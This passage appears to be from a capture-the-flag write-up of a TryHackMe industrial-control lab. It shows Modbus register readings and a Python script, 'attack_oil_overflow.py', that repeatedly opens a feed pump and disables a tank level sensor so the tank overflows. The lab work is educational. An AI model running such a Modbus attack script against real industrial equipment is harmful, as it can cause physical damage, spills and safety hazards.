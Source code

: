 ![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Attacking-ICS-Plant-2/images/a3.png)

```
[...]
[1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]
[1, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]
[1, 1, 1, 1, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0, 0]
[...]
```

**Looks like the second register is the `Tank Level Sensor`! Let's turn that off!**

**To do so, I'll:**

- Create a new python script to turn on/off registries:

**attack_oil_overflow.py:**
```py
#!/usr/bin/env python3

import sys
import time
from pymodbus.client.sync import ModbusTcpClient as ModbusClient
from pymodbus.exceptions import ConnectionException

ip = sys.argv[1]
client = ModbusClient(ip, port=502)
client.connect()

while True:
  client.write_register(1, 1)  # Open Feed Pump
  client.write_register(2, 0)  # Turn off Tank Level Sensor
```